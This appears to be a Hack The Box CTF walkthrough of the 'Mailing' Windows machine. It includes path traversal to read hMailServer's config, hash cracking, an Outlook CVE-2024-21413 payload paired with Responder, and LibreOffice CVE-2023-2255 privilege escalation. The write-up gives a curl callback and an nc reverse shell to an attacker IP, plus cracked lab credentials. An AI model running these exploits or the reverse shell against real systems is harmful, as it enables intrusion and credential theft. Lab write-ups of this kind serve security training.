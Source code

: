 ```yaml
---
date: 2025-02-03
categories: [CTF, HTB]
title: "HTB - Mailing"
tags: ['hashcat', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows']

description: "Mailing - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Mailing

NMAP

![image1](../resources/5bca4149e3934456a5b91fa2019e67bc.png)

Add mailing.htb to /etc/hosts

- Open Burp and capture the request from Download Instructions

![image2](../resources/d1af18942afe4d62876e16ad7234fdd9.png)

- Try and get to the hosts file:
```bash
C:\Windows\System32\drivers\etc\hosts

```
**We exclude C:\\ when doing traversal:**


![image3](../resources/51d5bd364f774b6c85645caf1df37695.png)


![image4](../resources/0ad55b0725f8446f80ba0474fb2a2927.png)

- We have a LFI vulnerability

- We know that hMailServer is running and the config file for it is in:
```bash
C:\Program Files\hMailServer\Bin\hMailServer.ini

```
But that didn't work:


![image5](../resources/8274244457eb4bc58395c6bdc43e246b.png)

- We can try and do:
```bash
C:\Program Files(x86)\hMailServer\Bin\hMailServer.ini

```
And we get the config file back:


![image6](../resources/c1aba331c07043688a598f53d160e999.png)

We get hashes:

AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7

\[Database\]


Password=0a9f8ad8bf896b501dde74f08efd7e4c


![image7](../resources/34bf7a31fc4a47baa6194267a2136167.png)

- Crack with hashcat:
```bash
hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

```

![image8](../resources/9a73545044e64de1886f739ab6a91a3d.png)

**Administrator - homenetworkingadministrator**

- Not logon creds:

![image9](../resources/3fc853d2ea2f48a79613ac3646126f62.png)

- In order to decrypt the database password - we need to use a program specifically made for it:
<https://github.com/GitMirar/hMailDatabasePasswordDecrypter>


![image10](../resources/4b69a12112c249af97eb0d8bc9b14f29.png)

**6FC6F69152AD**

- Tried logging in through SMTP - But it didn't work:
```bash
telnet mailing.htb 25

EHLO client.net

AUTH LOGIN

<username>

<password>

```

- Log in through POP3 - worked but nothing there:
```bash
telnet mailing.htb 110

USER Administrator@mailing.htb

PASS homenetworkingadministrator

```
- If we search for Outlook vulnerabilities we come across this:
<https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability>

- Set up Responder:
```bash
Responder -I tun0
```

- And send the following crafted payload (We get the recipient name from the homepage):
```bash
python3 CVE-2024-21413.py --server "mailing.htb" --port 587 --username "administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url '\\10.10.14.15\meeting' --subject "Important"

```

![image11](../resources/664b525f935743a2a8cb850225969bed.png)

- And we get a hit:

![image12](../resources/eb85a293e71c4aa790d69ded0b1cd183.png)

- Crack with hashcat:
```bash
hashcat -a 0 -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

```

![image13](../resources/8839ade021d6402f9633465edad34d9b.png)

**maya : m4y4ngs4ri**

- The creds are good:

![image14](../resources/a1ab6d1146e3422993d26f37ad44a8e6.png)

- And we can evil-winrm in:

![image15](../resources/00726ea407744f3a9471303b1200505d.png)

```bash
evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri

```

![image16](../resources/440f58236c5d4196866c9c51cc3eda93.png)

```bash
cat user.txt

```
- Enumerating - we see a user localadmin:

![image17](../resources/543506c03d7a45618342b7b3ce72c4b5.png)

- Looking at scheduled tasks:
```bash
schtasks /query /fo LIST /v | select-string -pattern "localadmin" -context 9,13

```

![image18](../resources/917123aa2efc48abb8d1536a123d19ac.png)

We see an office script running under localadmin

- We can also see that LibreOffice is installed:

![image19](../resources/205b31e287e1480d9ce4d4744a189648.png)

- Get LibreOffice version:
```powershell
$libreofficeInstallPath = "C:\Program Files\LibreOffice"
$libreofficeVersion = (Get-Item "$libreofficeInstallPath\program\soffice.bin").VersionInfo.FileVersion
Write-Host "LibreOffice Version: $libreofficeVersion"

```

![image20](../resources/ff35adbdc84e45cbb48a93b1327fb5d7.png)

- **CVE-2023-2255:**

![image21](../resources/ced8b388e3ec49ea905a09a30b580a56.png)

- Test the exploit:
<https://github.com/elweth-sec/CVE-2023-2255/blob/main/CVE-2023-2255.py>

```bash
python3 CVE-2023-2255.py --cmd "curl <http://10.10.14.15:8000/a>" --output form.odt

```
- Upload the form.odt to C:\Important Documents

![image22](../resources/990308e37f5c4afe8e268b30cc25d00b.png)

- Set up python http server to test:

![image23](../resources/1d34f984e26746dc8c4e10bce2faa711.png)

- Uploading nc and trying to get a reverse shell didn't work because of AV:
```bash
python3 CVE-2023-2255.py --cmd "C:\Important Documents\nc.exe 10.10.14.15 8000 -e cmd.exe" --output form.odt

```
- So instead added maya to admin group:
```bash
python3 CVE-2023-2255.py --cmd "net localgroup Administradores /add maya" --output form.odt

```

![image24](../resources/7526f6a5f87c4deda29fe2977ae3a478.png)

- Close the current evil-winrm session and start a new session (otherwise the new group won't take effect)

```bash
cat root.txt

```
- We can also dump the SAM hashes now